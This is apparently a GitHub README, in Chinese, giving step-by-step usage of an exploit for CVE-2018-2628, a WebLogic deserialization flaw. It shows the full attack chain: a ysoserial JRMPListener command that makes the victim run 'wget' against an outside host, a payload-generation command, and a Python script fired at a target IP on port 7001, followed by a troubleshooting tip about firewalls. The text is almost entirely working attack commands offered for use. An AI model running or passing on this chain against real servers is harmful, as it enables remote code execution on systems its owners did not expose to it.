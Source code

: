## CVE-2018-2628

### 利用方式
#### 1、运行JRMPListener
```
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 22801 Jdk7u21 "wget http://192.168.40.27/2.txt"
```
#### 2、生成payload
```
java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 192.168.40.27:22801 > payload.out
```
#### 3、攻击
```
python cve-2018-2628.py 192.168.1.13 7001
```

### 出现的问题
出现问题，可能是虚拟机iptables、firewall、sulinux等影响。

### 参考文章
https://github.com/tdy218/ysoserial-cve-2018-2628